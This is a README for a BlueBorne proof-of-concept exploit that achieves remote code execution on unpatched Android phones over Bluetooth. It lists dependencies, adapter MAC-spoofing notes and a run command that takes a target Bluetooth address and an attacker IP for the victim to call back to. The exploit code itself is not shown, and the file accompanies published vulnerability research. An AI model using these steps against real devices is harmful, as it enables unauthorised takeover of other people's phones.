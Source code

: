 UPDATE
======
* Fixed driver issue with CSR bluetooth driver. This script now works with all bluetooth drivers.   - Aditya Chaudhary


BlueBorne Android Exploit PoC
=============================

This repository contains a PoC code of BlueBorne's Android RCE vulnerability (CVE-2017-0781).
It also uses the SDP Information leak vulnerability (CVE-2017-0785) to bypass ASLR.
It achieves code execution on a Google Pixel Android smartphone running version 7.1.2 with Security Patch Level July or August 2017.
This code can also be altered a bit in order to target other Android smartphones.

All code can be found under android dir.

For more details you may read the full technical white paper available here:

https://www.armis.com/blueborne/

In addition a detailed blog post on the exploitation of this vulnerability would also go live on Sunday 22nd of October here:

https://www.armis.com/blog/

===============

Dependencies:

    pip2 packages: pybluez, pwn
    
    - sudo apt-get install libbluetooth-dev
    - sudo pip2 install pybluez pwn

    A CSR USB bluetooth adapter. We need to change the MAC address, and so we use a vendor specific HCI command to do this
    for the CSR bluetooth adapter.
    - An alternative adapter can also be used - the only thing to alter is the set_rand_bdaddr function.

To run:

    sudo python2 doit.py hci0 <target-bdaddr> <attacker-ip>

IP needs to be accessible from the victim (should be the IP of the machine that runs the exploit)


